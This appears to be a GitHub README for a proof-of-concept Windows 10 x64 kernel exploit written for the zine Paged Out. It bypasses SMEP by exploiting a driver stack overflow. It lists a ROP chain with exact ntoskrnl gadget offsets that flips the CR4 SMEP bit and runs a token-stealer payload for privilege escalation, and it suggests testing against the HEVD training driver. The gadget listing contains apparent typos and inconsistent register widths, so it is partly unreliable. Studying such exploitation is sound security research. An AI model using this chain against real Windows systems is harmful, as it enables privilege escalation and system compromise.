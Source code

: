 # WindowsSMEPBypass
Example of SMEP bypass in Windows 10 1709 x64 for Paged Out. Kudos to **Gynvael Coldwind** and **Mateusz Jurczyk** for the review.

# Brief description

Vulnerability: Stack based overflow in a third-party driver.

1. **Leak ntoskrnl address**
    - *NtQuerySystemInformation*
2. **Setup payload**
    - *ROP Chain*: We use only gadgets in ntoskrnl. Exactly, ntoskrnl *10.0.17763.678*
						
						pop rcx (1)
						ptr_userland_memory
						nt!KiSaveInitialProcessorControlState
						mov rax, dword [rcx+0x18] (2)
						pop rcx (1)
						0xFFFFFFFFFFEFFFFF
						and ecx, eax (3)
						mov cr4, ecx (4)
						OFFSET TOKEN STEALER
						mov cr4. ecx (4)
						ret (5)
						
						
		
		
	(1) ntoskrnlBase + 0xdb8f = **nt!AuthzBasepRemoveSecurityAttributeValueFromLists**+0x7b
	
	(2) ntoskrnlBase + 0x2bb1f = **nt!MiGetSubsectionDriverProtos**+0xb
	
	(3) ntoskrnlBase + 0x0a3dc3 = **nt!MiGetPteAddress**+0xf
	
	(4) ntoskrnlBase + 0x76a02 = **nt!KiFlushCurrentTbWorker**+0x12
	
	(5) ntoskrnlBase + 0xdb90 = **nt!AuthzBasepRemoveSecurityAttributeValueFromLists**+0x7c
	
    - *Payload*: We want to elevate our privileges, so our payload is Token Stealer. It is in payload.asm
3. **Trigger vuln**
    - *DeviceIoControl*

# Important

You need a vulnerable driver to test this. You can make your own or find some vulnerable. You can check HEVD(Hacksys Extreme Vulnerable Driver).
